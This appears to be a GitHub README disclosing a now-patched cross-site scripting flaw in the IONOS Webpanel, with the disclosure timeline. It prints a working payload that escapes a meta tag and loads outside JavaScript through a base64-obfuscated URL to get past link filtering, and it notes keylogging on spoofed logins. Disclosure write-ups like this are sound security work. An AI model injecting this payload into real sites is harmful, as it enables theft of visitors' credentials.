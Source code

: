 # JSPayload
**NOTE:** This exploit has been reported to IONOS and as of 10th February 2020 this exploit is no longer possible. Thanks to the security team at 1&1 for patching this!

## The Exploit

IONOS Webpanel did not santitise or parse any HTML written into the "Short Description" meta tag for redirect sites. This allowed an attacked to inject malicious javascript into a site which could then execute external javascript pulled from any other server. 
![IONOS Web Panel](https://i.imgur.com/KRsu6ab.png)
This exploit allowed an attacked to run any javascript they wanted on a page where other pages were loaded in as an Iframe. This means they could fool a user into thinking they were logging into a legitimate service, when the attacker has malicious javascript logging keyboard input.
![Firefox Developer tools showing JS has been injected to the site.](https://i.imgur.com/OxgeoaI.png)
The interesting thing was that the IONOS web panel **DID** check for links!  But this could be easily circumvented via obfuscation with base64, using js to deobfuscate the B64 back into a url and inject it into the page programatically. The code to do so was:
```js
**"/><script id="j"></script><script id="f"></script><script id="c"></script><script>document.getElementById("c").setAttribute("src",atob("aHR0cHM6Ly9yYXcuZ2l0aGFjay5jb20vVGlrdmFoVGVybWluYXRvci9KU1BheWxvYWQvbWFzdGVyL3BheWxvYWQuanM=");</script><meta name="**
```
This set up two script tags to be injected into by the external JS with IDs to be selected, and then simply injected the JS! 


## How did you discover this?

It's daft, but I was trying to put a favicon as an icon for a CTF page through redirect, when i realised that the \<meta> tag could be escaped, and that \<script> tags could written, and using JS, inject more javascript from an external source into the webpage! Isn't web security neat!

## When was this disclosed.
I disclosed this the day I found it out on 28th of January 2020 by calling and Emailing 1&1. IONOS responded to me via twitter [@bufferrodentflo](https://twitter.com/BufferRodentFlo) and i explained it to them from there :)

## Thanks
Special thanks to [Ch0p5u3y](https://github.com/Ch0p5u3y) & J.A Day for listening to my ramblings as I talked outloud about this to them and realised the B64 method! 
